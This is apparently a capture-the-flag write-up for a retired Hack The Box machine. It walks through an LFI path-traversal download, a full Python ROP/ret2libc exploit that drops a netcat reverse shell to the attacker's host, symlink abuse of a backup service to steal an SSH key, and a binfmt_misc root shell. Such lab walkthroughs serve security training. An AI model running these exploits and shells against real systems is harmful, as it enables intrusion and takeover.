









Introduction
Difficulty: Medium
Machine: Retired
IP Address: 10.129.227.96
We start the operation by running an nmap scan
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
| 3072 77:b2:16:57:c2:3c:10:bf:20:f1:62:76:ea:81:e4:69 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCkfdfWGso2b9nD1yYlcq35Rrc1OCqcabTsuKoIlCXMayYEXqqWVohwu+rXyX06gzGR4EYp/fvb1BUo7n819iCzKhFjf2W2RHWfBne9TpRShBtQJ95oQhM6djuEahYzOTWiO1wTYqMdZQwANin/HXPIu2i+KoeeeOPL6g0qE2e4pMKI+BDo4SteVObt3ssP5NLTmNOSqVqKoFnUTNNnyqlwcbO67tRVINku2Kc6LH/HV0XBGjVqMmwfz3MokaBmAqTpn2td6x7CKcPRfiRgIB5AqkePgqHZl8Wn+TdsG6gziPJ6+NVcvadMJ2ErsJLuchds0ZNToG3P879UTFUrF9Qn+Z0TiTN7X0FgbOGG6u7iaN/r4NP0t2qmp2rS+se+Q/j21T4jBFJOXxqjRWQvGfayIKic4Enkxwv5WvAd3uNm9R/WEIxf7Ol0eMK39fUdfElOTViPNOyW/vT6gA9DxcBZM/X1xPgC1XqNKs0mdA1cZY34BQVffDQ2carfW9JzBb8=
| 256 cb:09:2a:1b:b9:b9:65:75:94:9d:dd:ba:11:28:5b:d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKT7918Wsxx40zkqP9APcaPrC5DXZf5yJdrTvgykTvijs34VtZ+QnelzftO5kayBMgNgnOe1e6lj/VKK4l+38OU=
| 256 0d:40:f0:f5:a8:4b:63:29:ae:08:a1:66:c1:26:cd:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOvB+7fNvrbSjtwto1GCaTWqRasmSlmx+oz5dveP8m5/
80/tcp open http syn-ack ttl 63 nginx
| http-methods:
|_ Supported Methods: GET HEAD POST
| http-title: Agency - Start Bootstrap Theme
|_Requested resource was /index.php?page=default.html
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelWe found services running on ports 22 and 80
The web application showed a page parameter that reads local files, indicating a possible LFI
We used Feroxbuster to enumerate directories and found an interesting page with an upload option
When testing the upload, we noticed that the uploaded program is written to activate_license.php. Returning to the LFI, we were able to read the uploaded file, confirming that the vulnerability was exploitable.
We searched for more information inside the file until we located a binary called activate_license on the machine.
We downloaded this binary and analyzed it with Ghidra.
In the analysis, we observed that the function activate_license has a buffer overflow.
The buffer is only 512 bytes long, and the function reading the data does not verify its size, allowing us to overwrite memory and inject a payload.
We also noticed that to execute the binary, it needs to bind to a port, so we configured a simple mechanism for that before continuing our tests.
For local debugging, we disabled ASLR on our machine:
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
We used gdb configured to follow the child process that executes the vulnerable function:
(gdb) set follow-fork-mode child
(gdb) set detach-on-fork off
(gdb) run 1337
With a generated pattern, we identified the RIP overwrite offset as 520 bytes. With this offset, we began constructing our payload.
Since NX was enabled, we chose a ROP + ret2libc technique. As ASLR was active on the target, we needed to leak absolute addresses of the binary and loaded libraries. We went back to the LFI and retrieved the process PID.
The information in /proc/PID/maps was obtained via LFI, allowing us to map the base addresses of both the binary and libc. We also identified a writable section in the binary to write the command that would be executed.
The base address of activate_license is 0x5632aa9e5000 while libc is loaded at 0x7f7f49403000. To get the offset of system() and look for ROP gadgets in libc, we needed to download it.
wget http://10.129.227.96/index.php?page=a.....///.....///.....///.....///.....///usr/lib/x86_64-linux-gnu/libc-2.31.so -O libc-2.31.so
--2025-08-19 21:54:47-- http://10.129.227.96/index.php?page=a.....///.....///.....///.....///.....///usr/lib/x86_64-linux-gnu/libc-2.31.so
Connecting to 10.129.227.96:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘libc-2.31.so’
libc-2.31.so 1.75M 213KB/s in 10s
2025-08-19 21:54:58 (172 KB/s) - ‘libc-2.31.so’ saved [1839792]We used objdump to read the offset of system()
objdump -d libc-2.31.so | grep '^[0-9].*system'

We needed a few ROP gadgets to extract data from the stack and write our payload into writable memory. We found a pop rdi gadget in the activate_license binary
ropper -f activate_license --search 'pop rdi; ret'

We also found some in libc
Next, we used rabin2 to search for the offset of a writable section (e.g., data) in activate_license
rabin2 -S activate_license

With gadgets and offsets defined, we built the Python exploit using ROP techniques to write the command into writable memory and call system() with its pointer.
from sys import argv
from pwn import *
import requests
def perform_rce(rhost, lhost):
actbase = 0x5632aa9e5000
libcbase = 0x7f7f49403000
pop_rdi = p64(actbase + 0x0000181b) #pop rdi; ret;
pop_rdx = p64(libcbase + 0x0000cb1cd) #pop rdx; ret;
mov = p64(libcbase + 0x00003ace5) # mov qword ptr [rdi], rdx; ret;
offset = 520 # offset between buffer and saved RIP
system = p64(libcbase + 0x000048e50) # libc system() address
writable = actbase + 0x00004000
# payload
cmd = b"bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc %s 1337 >/tmp/f' \x00" % lhost.encode()
rop = b''
rop += b'A'*offset # junk
for i in range(0, len(cmd), 8):
rop += pop_rdi
rop += p64(writable + i)
rop += pop_rdx
rop += cmd[i:i+8].ljust(8, b"\x00")
rop += mov
rop += pop_rdi
rop += p64(writable)
rop += system
with open('getshell.key', 'wb') as f:
f.write(rop)
files = {"licensefile": ("getshell.key", open("getshell.key", "rb"), 'application/x-iwork-keynote-sffkey')}
requests.post(f"http://{rhost}/activate_license.php", files=files)
perform_rce(argv[1], argv[2])We sent the payload via upload to activate_license.php and obtained a shell on the target machine
While exploring the machine, we found a backup service running:
We read its content and identified that the backup script creates a zip archive of the web application directory and saves it in a world-readable location, removing old backups and keeping only the most recent ones.
And that binary contains the following content:
The script creates a zip archive of /var/www/html and writes it to a world-readable directory, then deletes old backups keeping only the last 10.
The zip utility followed symbolic links by default, and the service was executed via systemd as user dev.
We leveraged this to create a symbolic link from /home/dev pointing to /var/www/html/dev
ln -s /home/dev /var/www/html/dev
We waited some time and then extracted the archive
That is, we linked, copied, and extracted. We grabbed the SSH private key and logged in as dev.
Once logged in as dev, we noticed something interesting inside the emuemu folder
This program acts as a wrapper allowing writing to
/proc/sys/fs/binfmt_misc/register
The kernel's binfmt_misc support allows registering custom interpreters for specific file types using either magic bytes or extension-based recognition.
In the Makefile of the project, we saw that reg_helper was installed in /usr/lib/emuemu, executable by the dev group, and had the capability required to allow writing to the binfmt_misc register, meaning anyone running it could write entries there.
Thus, reg_helper can be used to register a custom interpreter for OSTRICH ROM files.
With that capability, we planned to create a small program that sets UID and GID to zero and spawns a root shell. According to the binfmt_misc documentation:
https://www.kernel.org/doc/html/latest/admin-guide/binfmt-misc.html
The binfmt_misc register accepts strings in the following format, where flags are optional:
:name:type:offset:magic:mask:interpreter:flags
To take advantage of this, we can create a simple program that sets our UID and GID to zero and spawns a root shell, ignoring command-line arguments. This will act as our interpreter.
#include
#include
#include
int main(void) {
setuid(0);
setgid(0);
system("/bin/bash");
}We compile it: gcc handler.c -o handler
This program will act as the interpreter. Instead of replacing a default interpreter, we can also create a symbolic link with a custom extension and register a handler for that extension, using extension-based recognition mode:
type
is the type of recognition. Give M for magic and E for extension.This is possible because binfmt_misc follows symbolic links. We can choose any SUID file as long as it’s not in use, instead of executing its handler, it just spawns a shell.
ln -s /usr/bin/chfn chfn.TESTER
To complete privilege escalation, we now need to send the proper registration string to reg_helper so that our handler is registered as the interpreter for the chosen extension.
echo ":HTB:E::TESTER::$(realpath handler):C" | /usr/lib/emuemu/reg_helper
With this, we successfully escalated privileges and obtained root access to the machine, completing the challenge.